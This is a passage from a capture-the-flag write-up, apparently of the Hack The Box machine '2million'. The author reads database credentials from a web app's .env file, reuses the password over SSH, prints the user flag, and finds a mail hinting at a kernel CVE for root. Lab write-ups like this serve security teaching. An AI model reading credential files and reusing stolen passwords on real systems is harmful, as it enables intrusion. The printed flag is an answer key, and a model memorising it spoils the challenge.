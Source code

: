 I see its using private variables for the host and password of the database, so I use `printenv` to see if its there.

Nothing... and then I run `ls -lha` and see `.env` file.

```
(remote) www-data@2million:/var/www/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Perfect, lets login.

```
$ ssh admin@2million.htb
admin@2million.htb's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
...
admin@2million:~$ cat /home/admin/user.txt
518f29b33469fb35e4c4303164b0f539
```

There's the user flag! <mark>518f29b33469fb35e4c4303164b0f539</mark>

## Root Flag

Running `linpeas.sh` (once uploaded from a local http server) shows some interesting entries for Mail:

```
...
╔══════════╣ Searching installed mail applications

╔══════════╣ Mails (limit 50)
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/mail/admin
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/spool/mail/admin
...
```

Reading `/var/mail/admin` gives us an email:

```
$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
